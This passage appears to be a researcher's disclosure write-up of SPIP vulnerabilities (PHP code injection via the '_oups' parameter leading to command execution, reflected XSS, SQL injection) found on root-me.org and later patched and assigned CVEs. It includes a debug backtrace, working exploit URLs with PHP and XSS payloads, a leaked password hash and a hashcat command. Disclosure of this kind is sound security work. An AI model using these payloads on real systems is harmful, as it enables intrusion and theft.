../prive/squelettes/contenu/article.html,[1] => html_f8c6d633acdd97cfce459c6efd74f49a,[2] => _article,[3] => 12,[4] => en))) called at [/issue_4494/ecrire/public/assembler.php:378]
#4  inclure_balise_dynamique(Array ([0] => formulaires/editer_liens,[1] => 3600,[2] => Array ([editable] =>  ,[id] => auteurs-article-1-auteur,[_vue_liee] => auteurs_lies,[_vue_ajout] => auteurs_associer,[_objet_lien] => auteur,[id_lien_ajoute] => ,[objet] => article,[id_objet] => 1,[objet_source] => auteur,[table_source] => auteurs,[recherche] => ,[visible] => 0,[ajouter_lien] => ,[supprimer_lien] => ,[qualifier_lien] => ,[ordonner_lien] => ,[desordonner_liens] => ,[_roles] => ,[_oups] => '<?php debug_print_backtrace();die();?>',[_pipelines] => Array ([formulaire_fond] => Array ([form] => editer_liens,[args] => Array ([0] => auteurs,[1] => article,[2] => 1),[je_suis_poste] => )),[formulaire_args] => z+FJ1rTG/lk75IfPcVqrygiJhj3wixKIFYDVzdNWKSfpyNiJtN8gQpPFZh4QRLr2nrCnZYNK061VIxk9YkVVB9TNlAxClgABPC6zutkBCynE3wP7ew8PXA==,[erreurs] => Array (),[action] => /ecrire/?exec=article&amp;id_article=1&amp;ajouter=non&amp;tri_liste_aut=statut&amp;deplacer=oui&amp;_oups=%27%3C&amp;php%20debug_print_backtrace%28%29%3Bdie%28%29%3B&amp;%3E%27,[form] => editer_liens)), 1, Array ([0] => ../prive/squelettes/contenu/article.html,[1] => html_f8c6d633acdd97cfce459c6efd74f49a,[2] => _article,[3] => 12,[4] => en)) called at [/issue_4494/ecrire/public/assembler.php:353]
#5  inserer_balise_dynamique(Array ([0] => formulaires/editer_liens,[1] => 3600,[2] => Array ([editable] =>  ,[id] => auteurs-article-1-auteur,[_vue_liee] => auteurs_lies,[_vue_ajout] => auteurs_associer,[_objet_lien] => auteur,[id_lien_ajoute] => ,[objet] => article,[id_objet] => 1,[objet_source] => auteur,[table_source] => auteurs,[recherche] => ,[visible] => 0,[ajouter_lien] => ,[supprimer_lien] => ,[qualifier_lien] => ,[ordonner_lien] => ,[desordonner_liens] => ,[_roles] => ,[_oups] => '<?php debug_print_backtrace();die();?>',[_pipelines] => Array ([formulaire_fond] => Array ([form] => editer_liens,[args] => Array ([0] => auteurs,[1] => article,[2] => 1),[je_suis_poste] => )),[formulaire_args] => z+FJ1rTG/lk75IfPcVqrygiJhj3wixKIFYDVzdNWKSfpyNiJtN8gQpPFZh4QRLr2nrCnZYNK061VIxk9YkVVB9TNlAxClgABPC6zutkBCynE3wP7ew8PXA==,[erreurs] => Array (),[action] => /ecrire/?exec=article&amp;id_article=1&amp;ajouter=non&amp;tri_liste_aut=statut&amp;deplacer=oui&amp;_oups=%27%3C&amp;php%20debug_print_backtrace%28%29%3Bdie%28%29%3B&amp;%3E%27,[form] => editer_liens)), Array ([0] => ../prive/squelettes/contenu/article.html,[1] => html_f8c6d633acdd97cfce459c6efd74f49a,[2] => _article,[3] => 12,[4] => en)) called at [/issue_4494/ecrire/public/evaluer_page.php(55) : eval()'d code:32]
#6  eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#7  include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public/assembler.php:657]
#8  evaluer_fond(prive/squelettes/contenu/article, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en,[espace_prive] => 1), ) called at [/issue_4494/ecrire/inc/utils.php:3258]
#9  recuperer_fond(prive/squelettes/contenu/article, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en,[espace_prive] => 1), Array ([compil] => Array ([0] => ../prive/squelettes/body.html,[1] => html_5bbf3d281bcedbb6cfa5c8fc593ec71d,[2] => ,[3] => 22,[4] => en),[ajax] => contenu,[trim] => 1), ) called at [/issue_4494/ecrire/public/evaluer_page.php(55) : eval()'d code:89]
#10 eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#11 include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public/assembler.php:657]
#12 evaluer_fond(prive/squelettes/body, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en,[espace_prive] => 1), ) called at [/issue_4494/ecrire/inc/utils.php:3258]
#13 recuperer_fond(prive/squelettes/body, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en,[espace_prive] => 1), Array ([compil] => Array ([0] => ../prive/squelettes/structure.html,[1] => html_7335c83ff55eb313d2a61dfae0443fa4,[2] => ,[3] => 9,[4] => en),[trim] => 1), ) called at [/issue_4494/ecrire/public/evaluer_page.php(55) : eval()'d code:38]
#14 eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#15 include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public/assembler.php:657]
#16 evaluer_fond(prive/squelettes/structure, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en), ) called at [/issue_4494/ecrire/inc/utils.php:3258]
#17 recuperer_fond(prive/squelettes/structure, Array ([exec] => article,[id_article] => 1,[ajouter] => non,[tri_liste_aut] => statut,[deplacer] => oui,[_oups] => '<?php debug_print_backtrace();die();?>',[date] => 2020-05-29 12:34:09,[date_default] => 1,[date_redac] => 2020-05-29 12:34:09,[date_redac_default] => 1,[type-page] => article,[composition] => ,[lang] => en), Array ([compil] => Array ([0] => ../prive/squelettes/page.html,[1] => html_2282b1b56aa2fdb0410f3f69aba04c5e,[2] => ,[3] => 1,[4] => en),[trim] => 1), ) called at [/issue_4494/ecrire/public/evaluer_page.php(55) : eval()'d code:14]
#18 eval() called at [/issue_4494/ecrire/public/evaluer_page.php:55]
#19 include(/issue_4494/ecrire/public/evaluer_page.php) called at [/issue_4494/ecrire/public.php:157]
#20 include(/issue_4494/ecrire/public.php) called at [/issue_4494/ecrire/exec/fond.php:74]
#21 include_once(/issue_4494/ecrire/exec/fond.php) called at [/issue_4494/ecrire/inc/utils.php:1572]
#22 find_in_path(fond.php, exec/, 1) called at [/issue_4494/ecrire/inc/utils.php:151]
#23 include_spip(exec/fond) called at [/issue_4494/ecrire/inc/utils.php:81]
#24 charger_fonction(fond) called at [/issue_4494/ecrire/index.php:165]
```
1. Echo out the evaluated content to craft our payload\
Yellow: What I first aimed while auditing `eval()`, safe context\
Red: Where it got reflected and then, not-so-safe context\
```html
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php debug_print_backtrace();die();?>
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups=%27%3C?php%20debug_print_backtrace();die();?%3E
```


1. Spawn a phpinfo to see what is allowed / forbidden

1. Bypass the php disable_functions policies with `popen` which wasn’t restricted // Edit, I probably just forgot to echo the result of shell_exec.. :)
```html
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups='<?php echo fread(popen("id", "r"), 300);?>
https://www.root-me.org/ecrire/?exec=article&id_article=1&ajouter=non&tri_liste_aut=statut&deplacer=oui&_oups=%27%3C?php%20echo%20fread(popen(%22id%22,%20%22r%22),%20300);?%3E
```

1. Profit?!


> Honestly, I never thought I would one day pwn root-me, but hey, here we are, and I'm so frikkin' happy! :D


# Is root-me more secure than spip itself?

## XSS wise

The `parano` mode was enabled, which reduces the attack surface for XSS and escapes pretty much everything. Only a few were working on root-me. 
More information about this mode here: https://www.spip.net/en_article4948.html 

```html
https://www.root-me.org/ecrire/?exec=plan&null=lalu' onmouseover=alert(domain) style='width:9999999px;height:9999999px;' foo=
https://www.root-me.org/ecrire/?exec=plan&null=lalu%27%20onmouseover=alert(domain)%20style=%27width:9999999px;height:9999999px;%27%20foo=
```



## SQLi wise

I used one SQLi to leak information on root-me, such as my user entry in their database. I was quite perplex to learn that they were still using md5crypt, which is now considered as weak and can easily be bruteforced with hashcat or john. 

```
SELECT * FROM `spip_auteurs` WHERE email LIKE 'loukajc@gmail.com' [1]:
????CENSORED????, ????CENSORED????, , , Black Hat? Hell no! Black Cat. , , 0, , , loukajc@gmail.com, 2020-05-22 18:42:10, $1$FmHtJAcr$bkMz6D8B3P0oYCLKCXJVt., 18343, non, fr, develooper, ????CENSORED????, 2020-05-22 18:42:10, , , , , , Laluka, ThinkLoveShare, 523fc199643d2f0f0d71599bce5ebf1d732512a777ba9f8af656097445294023, , a:5:{s:7:"couleur";s:1:"9";s:7:"display";s:1:"1";s:18:"display_navigation";s:21:"navigation_sans_icone";s:14:"display_outils";s:3:"oui";s:3:"cnx";s:0:"";}, , 1comite, https://thinkloveshare.com, non
```

My password wasn’t in a wordlist, so I added it (testing purpose). And yes, I changed it. :)

Here I run `hashcat`, which is on my machine aliased to a docker alias: 

```bash
docker run --rm -it -v $(pwd):/host dockit dizcza/docker-hashcat:intel-cpu hashcat
```




After discussing these issues with the admins, md5crypt has been removed. They were actually already using sha256, md5crypt being only forgotten legacy and is now gone! \
Another security feature has been added and enforced for admins: GPG 


# Timeline - DD/MM/YYY

- 20/03/2020: New idea in mind: what about a RCE on root-me.org?
- 14/05/2020: Dockerized spip setup, first XSS. Getting motivated takes time, right?
- 15/05/2020: Initial contact with Spip & Root-Me, feedback on a bulk of xss
- 17/05/2020: Still in touch, first SQLi reported
- XX/05/2020: Patch for many XSS and SQLi tested and validated (spip side)
- XX/05/2020: W00t, got a shell?! (quickly reported & patched)
- 29/09/2020: Finally [publicly disclosed](https://blog.spip.net/Mise-a-jour-CRITIQUE-de-securite-SPIP-3-2-8-et-SPIP-3-1-13.html) by spip! :D
- 29/09/2020: Article published! Yataaaa! `\o/`
- 01/10/2020: Root-me's [WallOfFame](https://www.root-me.org/fr/Informations/Faiblesses-decouvertes/) has been updated :)
- 19/05/2022: OMG IT HAPPENED, CVE FINALLY AKNOWLEDGED!!! [CVE-2022-28959](https://nvd.nist.gov/vuln/detail/CVE-2022-28959), [CVE-2022-28960](https://nvd.nist.gov/vuln/detail/CVE-2022-28960), & [CVE-2022-28961](https://nvd.nist.gov/vuln/detail/CVE-2022-28961)
- 25/07/2022: No one ever told me about the CVE, I found out by messing around... What a world.

You can find the release note here: https://blog.spip.net/Mise-a-jour-CRITIQUE-de-securite-SPIP-3-2-8-et-SPIP-3-1-13.html


# Conclusion?

1. Nothing is as safe as it seems
1. Don’t rush, read code, read more code
1. Code stuff, build tools, moaaarrrr tools
1. Have fun, "waste" nights, everything’s gonna be alright. 


# Last words ? 

The patch. I do the patch often. I really like practicing the patch. Do you?

https://github.com/spip/SPIP/blob/0394b44774555ae8331b6e65e35065dfa0bb41e4/prive/formulaires/editer_liens.php#L131




# Kudos

Once again, thanks goes to [0nemask](https://twitter.com/0nemask), [Sicarius](https://twitter.com/AMTraaaxX), [m_101](https://twitter.com/w_levin), [Hugow](https://twitter.com/hugow_vincent), and [Drastdevix](https://twitter.com/Drastdevix) for proofreading this article, and for bearing with me spamming with random findings at 4am. `(҂⌣̀_⌣́)`
